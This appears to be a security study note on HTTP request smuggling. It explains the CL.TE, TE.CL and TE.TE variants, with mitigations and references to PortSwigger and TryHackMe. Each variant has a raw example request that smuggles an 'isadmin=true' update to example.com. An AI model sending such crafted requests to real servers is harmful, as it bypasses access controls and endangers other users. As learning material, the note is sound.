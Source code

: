 # HTTP Request Smuggling

[PortSwigger's HTTP Request Smuggling](https://portswigger.net/web-security/request-smuggling) states: *HTTP request smuggling is a technique for interfering with the way a web site processes sequences of HTTP requests that are received from one or more users. Request smuggling vulnerabilities are often critical in nature, allowing an attacker to bypass security controls, gain unauthorized access to sensitive data, and directly compromise other application users.Request smuggling is primarily associated with HTTP/1 requests. However, websites that support HTTP/2 may be vulnerable, depending on their back-end architecture.*

Given modern web application infrastructure:
![1920](modern-web-applications-http-request-smuggling.excalidraw.md)
There can be:
- Front-end servers
- Back-end servers
- Databases
- APIs
- Microservices
- Load Balancers
- Reverse Proxies
- Cache Mechanisms - storing data, results for future use - generally to reduce compute and network requests made by infrastructure
	- Content Caching - caching unchanging web content   
	- Database Query caching - caching the results of frequent query 
	- Full-page Caching - Entire page is cache so users do not need to regenerate them
	- Edge Caching/CDNs -  Content Delivery Networks (CDNs) cache content closer to the users
	- API Caching - caching API frequently used or all responses 

## Defining a HTTP Request Smuggling Attack 

HTTP Request Smuggling can occur when multiple different servers interpret HTTP request boundaries and the processing sequences of HTTP requests received create discrepancies in interpretation. 
- Conflicting Headers lead to (most like) undefined prioritisation
	- Either `Content-Length` and `Transfer-Encoding` headers

## Techniques

#### HTTP Request Smuggling CL.TE

CL.TE denotes Content-Length/Transfer-Encoding: front-end server and the back-end server interprets the request boundaries differently
- `Content-Length: 80` - Size matters how the server that interprets this header. 
- `Transfer-Encoding: chunked` is interpreted as a `0` and therefore end of a chunk, the second request 

Example from [THM HTTP Request Smuggling Room](https://tryhackme.com/room/httprequestsmuggling):
```php
POST /search HTTP/1.1
Host: example.com
Content-Length: 80
Transfer-Encoding: chunked

0

POST /update HTTP/1.1
Host: example.com
Content-Length: 13
Content-Type: application/x-www-form-urlencoded

isadmin=true
```
#### HTTP Request Smuggling TE.CL

TE.CL denotes Transfer-Encoding/Content-Length: front-end server uses the Transfer-Encoding header to determine the end of a request, and the back-end server uses the Content-Length header.
- `Transfer-Encoding: chunked` is interpreted as chunked up to  `0` by front-end as part of the first request 
- `Content-Length: 4` is interpreted by the back-end and then process only the first 4 bytes of the request; then the remaining part of the request, from `POST /update...` is then process 

Example from [THM HTTP Request Smuggling Room](https://tryhackme.com/room/httprequestsmuggling):
```php
POST / HTTP/1.1
Host: example.com
Content-Length: 4
Transfer-Encoding: chunked

4c
POST /update HTTP/1.1
Host: example.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

isadmin=true
0
```

#### HTTP Request Smuggling TE.TE 

TE.TE or Transfer-Encoding/Transfer-Encoding  is known as Transfer Encoding Obfuscation where two servers handle the `Transfer-Encoding` header inconsistently. Either using:
- Multiple `Transfer-Encoding` headers
- Single malformed `Transfer-Encoding` header 
```php
POST / HTTP/1.1
Host: example.com
Content-length: 4
// Either front-end will interpret or..
// ..Malformed header that will be ignored and interpret to the 0
Transfer-Encoding: chunked  
Transfer-Encoding: chunked1 
// back-end would either reject malformed or process similar to front-end
// Or interpret process only the first `4` bytes from Content-Length and then process then next part of the request:

4c
POST /update HTTP/1.1
Host: example.com
Content-length: 15

isadmin=true
0 
```

#### Mitigation and Prevention Strategies for HTTP/1


1. **Consistent Header Processing**: All servers, whether front-end or back-end, should consistently process headers. Any discrepancy can open the door for smuggling.
2. **Adopt HTTP/2**: HTTP/2 offers a more robust mechanism for handling request boundaries, making it a safer choice against smuggling attacks.
3. **Regular Monitoring and Audits**: Continuously monitor web server traffic for signs of smuggling attempts and conduct regular audits to ensure server configurations are up-to-date and secure.
4. **Educate Teams**: Ensure that development and operations teams are well-informed about the risks of request smuggling and the best practices to prevent it.


## References

[THM HTTP Request Smuggling Room](https://tryhackme.com/room/httprequestsmuggling)
[PortSwigger's HTTP Request Smuggling](https://portswigger.net/web-security/request-smuggling) 